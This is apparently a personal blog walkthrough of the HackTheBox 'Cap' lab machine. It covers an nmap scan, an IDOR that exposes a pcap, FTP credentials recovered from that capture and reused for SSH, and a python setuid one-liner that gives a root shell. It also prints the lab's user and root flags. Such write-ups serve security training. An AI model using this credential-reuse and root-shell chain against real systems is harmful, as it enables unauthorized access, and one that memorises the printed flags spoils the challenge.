 ```yaml
---
title: Cap HackTheBox Machine Writeup and Walkthrough
author: Gaurav Raj
date: 2021-06-10 13:30:00 +0800
categories: [CTF, HackTheBox]
tags: [ctf, hackthebox, htb, writeup, walkthrough, ftp, ssh, gunicorn, python, python3, suid, euid]
image:
  src: /assets/cap/banner.png
  alt: Cap HackTheBox Banner Image

---
```


## Cap
> HackTheBox Easy Level Machine

## Nmap Scan
```bash
# Nmap 7.91 scan initiated Thu Jun 10 11:56:18 2021 as: nmap -sC -sV -A -v -oN nmap/initial 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.20s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Thu, 10 Jun 2021 06:39:00 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 10 Jun 2021 06:38:52 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 10 Jun 2021 06:38:54 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-server-header: gunicorn
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=6/10%Time=60C1B0AC%P=x86_64-unknown-linux-gnu%r
SF:(GetRequest,2FE5,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate
SF::\x20Thu,\x2010\x20Jun\x202021\x2006:38:52\x20GMT\r\nConnection:\x20clo
SF:se\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x
SF:2019386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"e
SF:n\">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x
SF:20\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n
SF:\x20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<
SF:meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-s
SF:cale=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"
SF:image/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20
SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.c
SF:ss\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/cs
SF:s/font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\
SF:"\x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x2
SF:0rel=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x
SF:20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.
SF:min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/sta
SF:tic/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPO
SF:ptions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Th
SF:u,\x2010\x20Jun\x202021\x2006:38:54\x20GMT\r\nConnection:\x20close\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20GE
SF:T,\x20HEAD\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\
SF:.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x2
SF:0text/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x2
SF:0\x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<b
SF:ody>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20I
SF:nvalid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27
SF:;RTSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourReques
SF:t,189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:
SF:\x20Thu,\x2010\x20Jun\x202021\x2006:39:00\x20GMT\r\nConnection:\x20clos
SF:e\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:0232\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.
SF:2\x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found
SF:</h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x
SF:20server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\
SF:x20check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 10 11:59:15 2021 -- 1 IP address (1 host up) scanned in 176.55 seconds
```

## HTTP Enumeration
While Enumerating the site found an endpoint pointing to some type of `pcap` file which can be interesting for us. but when visiting to the actual endpoint found that the url used for accessing the `pcap` file is `http://cap.htb/data/14` which doesn't have any packets or data. so changed the url from `http://cap.htb/data/14` to `http://cap.htb/data/0` which got us a `pcap` file which actually contains some information. So downloaded it and start analyzing it.

![](/assets/cap/Pasted image 20210610125436.png)

### Analyzing the PCAP file
While Analyzing the `PCAP` file, we got the `FTP` credentials.
![](/assets/cap/Pasted image 20210610130443.png)

- FTP TCP Stream
	![](/assets/cap/Pasted image 20210610130557.png)	

#### Creds
```bash
nathan:Buck3tH4TF0RM3!
```

## Accessing the FTP
After Logging in the ftp, noticed that the whole filesystem is accessible.

## Getting User Access
After trying the `FTP` credentials against `SSH`, we got the access as user `nathan`.
![](/assets/cap/Pasted image 20210610131323.png)

### User Flag
```bash
3498bd1cb84249bc6929f298e7a26892
```

## Privilege Escalation
### Getting Root Shell
```bash
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# cat /root/root.txt
e271e8035aaf55afd2a22ea4e232b35f
#
```
![](/assets/cap/Pasted image 20210610132128.png)

### Root Flag
```bash
e271e8035aaf55afd2a22ea4e232b35f
```

Here we completed our Machine.
## Completed
![](/assets/cap/Pasted image 20210610132516.png)
